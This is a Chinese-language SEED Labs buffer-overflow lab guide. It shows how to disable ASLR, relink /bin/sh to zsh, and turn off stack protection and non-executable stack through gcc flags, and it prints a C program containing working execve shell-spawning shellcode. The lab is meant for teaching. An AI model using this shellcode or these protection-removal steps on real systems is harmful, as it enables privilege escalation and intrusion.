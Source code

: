 # 缓冲区溢出实验详细说明

> 内容来源：SEED Labs

## 1 初始化安装

缓冲区溢出攻击是危害最大的攻击方式之一。为了防止缓冲区溢出攻击，已经研究出了多种保护机制，比较常用的有：
- 地址空间随机化
- 禁止栈执行
- Stack Guard

为了演示缓冲区溢出攻击的原理，我们将禁用这些机制。

1. 禁止地址空间随机化
本次实验在 ubuntu虚拟机下运行。需要禁止一些安全机制。在初始安装阶段，我们先执行下列语句：

```
# 禁止地址空间随机化机制 

[08/06/19]seed@VM:~$ sudo sysctl -w kernel.randomize_va_space=0
[sudo] password for seed: 
kernel.randomize_va_space = 0
```
注：sysctl命令用于运行时配置内核参数，这些参数位于/proc/sys目录下。sysctl配置与显示在/proc/sys目录中的内核参数．可以用sysctl来设置或重新设置联网功能，如IP转发、IP碎片去除以及源路由检查等。用户只需要编辑/etc/sysctl.conf文件，即可手工或自动执行由sysctl控制的功能。

2. 改变shell

此外，为了进一步防范缓冲区溢出攻击及其它利用shell程序的攻击，许多shell程序在被调用时自动放弃它们的特权。因此，即使你能欺骗一个Set-UID程序调用一个shell，也不能在这个shell中保持root权限，这个防护措施在/bin/bash中实现。

linux系统中，/bin/sh实际是指向/bin/bash或/bin/dash的一个符号链接。为了重现这一防护措施被实现之前的情形，我们使用另一个shell程序（zsh）代替/bin/bash。下面的指令描述了如何设置zsh程序：
```
sudo su
cd /bin
rm sh
ln -s zsh sh
```

## 2 任务1：运行Shellcode

任务1的任务是运行一个程序测试一个shellcode，它将注入到某个脆弱程序的堆栈中。

首先我们了解一下将要编译的shellcode源程序。用于打开一个shell的代码被转化为二进制机器码，粗放在code字符串中。
```
/*
A program that creates a file containing code for launching shell
*/

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
  "\x31\xc0"    /* xorl %eax, %eax    */
  "\x50"        /* pushl %eax         */
  "\x68""//sh"  /* pushl $0x68732f2f  */
  "\x68""/bin"  /* pushl $0x6e69622f  */
  "\x89\xe3"    /* movl %esp,%ebx     */
  "\x50"        /* pushl %eax         */
  "\x53"        /* pushl %ebx         */
  "\x89\xe1"    /* movl %esp, %ecx    */
  "\x99"        /* cdq                */
  "\xb0\x0b"    /* movb $0x0b, %al    */
  "\xcd\x80"    /* int $0x80          */
;

int main(int argc, char **argv){
  char buf[sizeof(code)];
  strcpy(buf,code);
  ((void(*)())buf)();
}
```

上面的C程序中包含了一段shellcode，存放在字符数组中。这个数组将被拷贝到缓冲区中。


- 允许或禁止栈执行 
```
#在编译c程序代码时设置 
#允许：
gcc -z execstack -o test test.c 
#禁止：
gcc -z noexecstack -o test test.c 
```
- 关闭gcc的Stack Guard 
```
gcc -fno-stack-protector -o test test.c
```
